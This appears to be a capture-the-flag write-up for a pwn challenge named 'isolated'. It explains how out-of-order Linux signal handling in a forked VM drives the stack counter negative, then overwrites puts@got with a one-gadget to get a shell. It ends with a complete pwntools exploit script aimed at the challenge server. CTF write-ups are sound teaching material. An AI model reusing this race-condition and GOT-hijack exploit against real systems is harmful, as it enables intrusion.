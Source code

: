 # Prologue

I played this CTF with my teamates @r3kapig, we ranked 10th(5330 points). It's a pity that we need 28 pints more to get the tickets to
the final. But I really enjoy this CTF. I spent the whole day on this
challenge, isolated. Besides, I learned a lot about the linux signal and
communication between porcesses.

# Intro to the challenge

It's a simple challenge. It uses fork to get a child process They use
shared memory and signals to communicate with each other.

#### Parent Process

It uses \"signal\" function to register several signals, including
SIGHUG, SIGINT, SIGQUIT, and SIGILL. It replaces the original fucntions
with our VM atomic operations, including PUSH, POP, CLEAN STACK, and
LOG.

#### Child Process

The son child implements a VM and takes our inputs as code. There is no
vulnerability in the VM or the VM-atomic-operations.

In the vm we have two not-blocked-operations and 8 blocked-operations.
blocked-operations would block until it gets the result from another
process while the not-blocked ones don't care about the results.

#### PWN

Our goal is to escape from the VM and get a shell. The venerability of
this VM is that the linux signal is out-of-order and the
handle-functions are not the atomic operations.

# Solution

#### Init

I don't know if my guess is correct or not, because the debugging of
multi-process challenge is intricate, I just had a try (atcually tons of
tries) and it works!

#### Background

It's out-of-order when the signal is processed and if the signals are
processed in the following order we could get a negative stack counter.

#### My Guess

We could split the POP handle function into 2 steps.

1\. Check if the stack counter is less than 0

2\. Decrese the stack counter

#### Trigger

We can trigger the vulnerability by following steps.

1\. Clean Stack to set stack counter to 0

2\. Push Signal to set stack counter to 1

3\. Signal-POP 1: pop-handle-step1

4\. Signal-POP 2: pop-handle-step1

5\. Signal-POP 1: step2

6\. Signal-POP 2: step2

7\. Get a negative stack counter

#### Get a shell

The following exploitation is more straightforward. We could modify the
got and use one-gadget to get a shell. I tried printf@got but failed and
I succeeded in hijacking put@got.

# Exploit
```python
        from pwn import *
        def push(val):
            return p8(0)+p32(val)
        def pop():
            return b'\x01'
        def div(v1,v2):
            return p8(5)+b'f'+p32(v1)+b'f'+p32(v2)
        def log(v):
            return p8(10)+p8(0x66)+p32(v)
        def eee(idx,val):
            # cmp + je
            return p8(6)+b'U'+b'f'+p32(val)+p8(8)+b'f'+p32(idx)
        def eax(idx):
            # cmp + je
            return p8(6)+b'f'+p32(0)+b'U'+p8(8)+b'f'+p32(idx)
        def add(v1,v2):
            return p8(2)+b'f'+p32(v1)+b'f'+p32(v2)
        def safe_show2():
            return p8(6)+b'U'+b'U'
        def hangup(off):
            return p8(7)+p32(off)
        #context.log_level='debug'
        #p= process("./isolated")
        p=remote("3.38.234.54",7777)
        #p=remote("0.0.0.0",7777)
        sa = p.sendafter
        def loopn(n):
            res = b''
            for x in range(n):
                res+=safe_show2()
            return res
        pay  = log(1)+push(0)+log(1)+pop()+pop()+pop()+pop()
        pay += b'\x09'+eax(len(log(0)))
        pay += loopn(37-9)+p8(6)+b'Uf'+p32(0x132)
        pay += p8(2)+b'U'+b'f'+p32(0x8997c)+safe_show2()
        pay += log(1)+hangup(len(pay))
        
        sa("opcodes >",pay.ljust(0x300,b'\x0f'))
        sleep(1)
        p.read()
        p.send(b"cat flag*\n")
        p.interactive()
```